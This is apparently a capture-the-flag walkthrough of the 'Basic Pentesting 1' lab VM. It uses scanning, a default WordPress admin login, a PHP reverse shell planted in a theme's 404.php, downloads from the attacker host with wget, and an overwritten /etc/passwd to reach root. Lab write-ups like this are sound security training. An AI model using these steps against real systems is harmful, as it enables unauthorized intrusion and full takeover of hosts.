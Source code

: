 # Basic Pentesting 1

### Find own IP/Network

    ifconfig

        >eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.30.131  netmask 255.255.255.0  broadcast 192.168.30.255

### Scan Network

Here we see http port 80 is open on our target

    nmap 192.168.30.0/24
    
>Nmap scan report for 192.168.30.128
Host is up (0.00072s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:04:64:FF (VMware)

    
### Add host to hosts file for convenience

    echo 192.168.30.128 vtcsec >> /etc/hosts
    
    
### Enumerate HTTP

    nmap --script=http-enum vtcsec
  
  
  
>Nmap scan report for vtcsec (192.168.30.128)
Host is up (0.00020s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /secret/: Potentially interesting folder
MAC Address: 00:0C:29:04:64:FF (VMware)

### The wordpress site

Navigate to:
    
    vtcsec/secret
    
This is found to be a wordpress site. Try the default login page wp-login.php to see if it works

    vtcsec/secret/wp-login.php
    
 Login Page Found

Test Default Password

    Login: admin
    Pass: admin
    

### Upload Reverse shell script

Check themes, what is currently active?

    Appearance > Themes
    
Edit a 404.php page

    Appearance > editor > (select a non active theme. here I use twentysixteen) > 404 template(404.php)
    
Copy and paste Pentestmonkey PHP Reverse Shell script. (Don't forget to set the local port and ip! Here I use port 7777)
    
    (Modify this stuff)
    $ip = '192.168.30.131'; //CHANGE THIS
    $port = '7777'; //CHANGE THIS


### Set up listener

    nc -lvp 7777
    
### Open page and load the 404.php

    (open in browser) vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
    or
    
    curl vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
Reverse shell received
    
listening on [any] 7777 ...
connect to [192.168.30.131] from vtcsec [192.168.30.128] 57100
Linux vtcsec 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:37:43 up 50 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
    
    
### Privilege Escalation

Upload an escalation checker script. LinEnum.sh used here

        cd <folder with script>
        python -m SimpleHTTPServer 1234
        
On reverse shell, navigate to a world writable folder and download

        cd /tmp
        wget 192.168.30.131:1234/LinEnum.sh
        
>$ wget 192.168.30.131:1234/unix-privesc-check
--2018-12-11 06:22:18--  http://192.168.30.131:1234/unix-privesc-check
Connecting to 192.168.30.131:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 49721 (49K) [application/octet-stream]
Saving to: 'unix-privesc-check'

     0K .......... .......... .......... .......... ........  100% 15.2M=0.003s

2018-12-11 06:22:18 (15.2 MB/s) - 'unix-privesc-check' saved [49721/49721]



### Run Script

        chmod +x unix-*
        (because i'm lazy af)
        ./unix-* standard | grep WARNING
        
Something interesting is found

>$ ./unix-* standard | grep WARNING                               
passwd: Permission denied.
Search the output below for the word 'WARNING'.  If you don't see it then
[UPC004] WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd
[UPC004] WARNING: /etc/passwd can be written to World write is set for /etc/passwd

### Changing passwords

Transfer file through apache folder since port 80 is already open

        cp /etc/passwd /var/www/html/
        
Go into an easily accessible folder on attacker machine(i used desktop) and download the passwd file

        cd ~/Desktop
        wget vtcsec/passwd

Edit the password

In any text editor of your choice, replace the 'x' inside the passwd file with the following for 'root' and 'marlinspike':

        $6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0
        (This basically means 'test')
        
 Close the previous python SimpleHTTPServer if it's still running. Run it again from the folder where the modifled passwd file is.
 
        cd ~/Desktop
        python -m SimpleHTTPServer 1234
        
 On the reverse shell, replace the /etc/passwd file with the modified one. use wget -O to output/overwrite
 
        wget 192.168.30.131:1234/passwd -O /etc/passwd
        
>ERROR: could not open HSTS store. HSTS will be disabled.
--2018-12-11 08:23:21--  http://192.168.30.131:1234/passwd
Connecting to 192.168.30.131:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2558 (2.5K) [application/octet-stream]
Saving to: '/etc/passwd'
0K ..                                                    100%  195M=0s
utime(/etc/passwd): Operation not permitted
2018-12-11 08:23:21 (195 MB/s) - '/etc/passwd' saved [2558/2558]


### Logging in

Try to log in with the reverse shell
    
        $ su root
        su: must be run from a terminal

Annoying.. Open bash then

        $ python -c 'import pty;pty.spawn("/bin/bash")'
        www-data@vtcsec:/$ 

Switch user again. Don't forget we also changed marlinspike's password to 'test', we can use that account as well

        www-data@vtcsec:/$ su root
        su root
        Password: test
        root@vtcsec:/var/www/html# whoami
        root

